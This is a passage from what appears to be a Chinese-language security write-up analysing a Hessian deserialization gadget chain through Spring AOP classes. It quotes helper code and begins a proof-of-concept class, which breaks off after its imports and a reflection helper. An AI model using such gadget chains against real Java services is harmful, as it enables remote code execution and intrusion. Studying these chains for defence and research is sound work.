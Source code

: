  - 接着跟进`UtilFactory#makeToStringTriggerUnstable`, 继续会调用`ToStringUtil#makeToStringTrigger`方法. 然后会调用到`JDKUtil#makeMap`方法, 这里与`RomeGadget`后面的分析一样.

```java
Object makeToStringTriggerUnstable ( Object obj ) throws Exception;


default Object makeToStringTriggerStable ( Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC
在`POC`中的序列化部分多出来了几行代码, 这是因为, 一般对于对象的序列化, 如果对象对应的`class`没有对`java.io.Serializable`进行实现`implement`的话, 是没办法序列化的, 所以这里对输出流进行了设置, 使其可以输出没有实现`java.io.Serializable`接口的对象.
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 6:26 下午
 */
public class SpringPartiallyComparableAdvisorHolderGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
```
